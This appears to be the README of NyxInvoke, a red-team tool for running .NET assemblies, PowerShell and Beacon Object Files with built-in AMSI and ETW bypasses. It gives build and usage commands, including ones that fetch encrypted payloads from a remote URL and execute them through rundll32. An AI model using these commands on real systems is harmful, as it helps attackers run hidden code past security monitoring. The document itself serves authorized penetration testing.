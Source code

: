 # NyxInvoke

NyxInvoke is a versatile Rust-based tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities. It can be compiled as either a standalone executable or a DLL.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data
- Dual-build support: can be compiled as an executable or a DLL

## Building

NyxInvoke can be built as either an executable or a DLL. Use the following commands:

### Executable

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features exe --bin NyxInvoke
```

### DLL

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features dll --lib
```

To include compiled-in CLR or BOF data, add the respective features:

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features=exe,compiled_clr,compiled_bof --bin NyxInvoke
```
or
```
cargo +nightly build --release --target=x86_64-pc-windows-msvc --features=dll,compiled_clr,compiled_bof --lib
```

## Usage

### Executable Mode

The executable supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

#### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### DLL Mode

When compiled as a DLL, NyxInvoke can be executed using rundll32. The syntax is:

```
rundll32.exe NyxInvoke.dll,NyxInvoke <mode> [OPTIONS]
```

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke clr [OPTIONS])

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```

2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke ps [OPTIONS])

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke bof [OPTIONS])

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help
```

## Examples

### Executable Mode

1. CLR Mode (Remote Execution):
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Script Execution):
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

3. BOF Mode (Local Execution):
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

### DLL Mode

1. CLR Mode (Remote Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Direct Command Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke ps --command "Get-Process | Select-Object Name, ID"
   ```

3. BOF Mode (Compiled Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke bof --args "str=argument1" "int=42"
   ```


## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that List user permissions for the specified file, wildcards supported.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\Windows\system32\cmd.exe"
     ```

## Screenshot


- Dll Compiled CLR Executaion 

![Screenshot 2024-09-18 123147](https://github.com/user-attachments/assets/dd58adbc-50f2-4eb4-9a33-0851bacfe754)


- EXE Remote BOF Executaion 

![Screenshot 2024-09-18 123410](https://github.com/user-attachments/assets/54a20996-7cf3-4cbb-ab4d-6e7973094e80)


- Dll Powershell Script Executaion 

![Screenshot 2024-09-18 123547](https://github.com/user-attachments/assets/6c1e2f53-0d85-45e8-8a38-4a6dcb08a767)




## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

## Credits

- @yamakadi for the [clroxide](https://github.com/yamakadi/clroxide) project
- @hakaioffsec for the [coffee](https://github.com/hakaioffsec/coffee) project

